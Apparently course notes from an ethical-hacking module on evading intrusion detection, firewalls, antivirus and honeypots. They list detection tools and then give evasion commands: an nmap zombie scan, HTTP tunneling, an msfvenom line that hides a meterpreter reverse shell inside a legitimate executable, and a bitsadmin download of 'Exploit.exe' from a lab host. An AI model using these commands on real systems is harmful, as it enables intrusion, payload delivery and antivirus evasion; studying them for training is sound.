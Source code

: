 # Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  192.168.18.11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
